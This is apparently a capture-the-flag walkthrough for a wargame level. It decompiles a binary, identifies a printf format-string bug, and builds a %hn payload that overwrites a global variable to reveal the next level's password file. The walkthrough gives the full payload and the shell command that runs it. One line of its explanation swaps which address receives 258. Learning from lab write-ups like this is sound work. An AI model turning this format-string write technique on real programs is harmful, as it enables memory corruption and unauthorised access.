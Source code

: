 # Level4
Level4 is about going further on global variables and formatted strings exploits

# Tools

# Walkthrough
The home of level4 contains binary, as usual.

Upon decompiling it with dogbolt, we see an interesting function:
```c
void n()
{
    char v0;  // [bp-0x20c]

    fgets(&v0, 0x200, __bss_start);
    p(&v0);
    if (m == 16930116)
    {
        system("/bin/cat /home/user/level5/.pass");
        return;
    }
    return;
}
```

The goal of this exercice seemsp pretty similar to the goal of the previous exercice.
THe core difference here lies in the number compared to `m`. 
`16930116` is too big of a number to only be written on 2-bytes (also called 'word'), and writing 4 bytes (called 'double word' or 'dword' for short) in a signe shot can be risky.

We want to find the address of `m` (it's a global variable):
```bash
objdump -t level4
...
08049810 g     O .bss	00000004              m
...
```

The function `n` calls function `p`, which contains a vulnerable `printf` call:
```c
int __cdecl p(char *format)
{
  return printf(format);
}
```

We want to exploit that code to overwrite the value of `m` to get in the `if` segment. 

First, we need to know where we are the memory when abusing the `printf`. With trial and error:
```
level4@RainFall:~$ ./level4 <<< $(python -c 'print "AAAA" + "%12$x "')
AAAA41414141
```
So we start overwriting after 11 double words, at dword 12. 

`16930116` = `0x01025544`
As discussed earlier, it's too big of a number to fit on 2 bytes, even in hexadecimal.
Thus, we split it in two parts:
`0x0102`= `258` and `0x5544` = `21828`

Because of the little-endianness, we want to write the low value bytes in the lower memory addresses. Thus, `258` will be written at `0x08049810` (address of `m`), and `21828` at `0x08049812`(address of `m` + 2 (bytes we have written previously)).

Addresses in little endian:
`"\x12\x98\x04\x08" + "\x10\x98\x04\x08"`
Writting a value using `hn` (int on only 2 bytes) and padding:
`"%(258 - 8)d" + "%12$hn" + "%(21828 - 258)d" + "%13$hn"`

Giving the payload:
`"\x12\x98\x04\x08\x10\x98\x04\x08%250d%12$hn%21570d%13$hn"`

Start the program with the payload:
```bash
python -c 'print "\x12\x98\x04\x08\x10\x98\x04\x08%250d%12$hn%21570d%13$hn"' > attack.txt; cat attack.txt - | ./level4
```

# Resources
